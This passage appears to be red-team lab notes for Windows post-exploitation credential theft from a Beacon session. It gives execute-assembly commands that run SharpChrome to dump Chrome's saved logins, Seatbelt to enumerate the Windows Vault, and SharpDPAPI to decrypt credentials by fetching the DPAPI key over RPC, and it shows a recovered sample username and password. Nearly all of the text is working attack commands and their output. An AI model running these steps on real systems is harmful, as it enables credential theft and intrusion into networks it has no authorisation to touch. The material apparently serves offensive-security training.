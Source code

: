 - From the medium-integrity Beacon, read the credentials from Chrome's database.
``
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

`CONTOSO\pchilds,Passw0rd!`

- From the medium-integrity Beacon, enumerate the vault.

```powershell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

-  Decrypt the credentials using RPC to fetch the DPAPI key.

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```